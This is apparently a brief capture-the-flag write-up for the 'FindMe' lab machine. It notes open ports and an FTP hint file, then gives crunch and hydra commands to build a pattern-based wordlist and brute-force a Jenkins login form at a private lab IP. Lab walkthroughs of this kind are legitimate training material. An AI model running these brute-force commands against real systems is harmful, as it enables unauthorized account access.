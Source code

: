 # FindMe

2025.03.04 https://thehackerslabs.com/find-me/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

ftp 可匿名，读取 ayuda.txt , 提示用户名 geralt ，jenkins 的密码包含 5 个字符，以 p 开头，以 a 结尾。

访问 80web 上无信息，8080 web 显示 jenkins，根据上面提示生成密码，进行爆破：

```
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric -t p@@@a -o pass.txt

crunch 5 5 -t p@@@a -o pass.txt
hydra -t 64 -l admin -P pass.txt 192.168.5.40 -s 8080 -f http-post-form "/j_spring_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=:F=Invalid username or password"
```
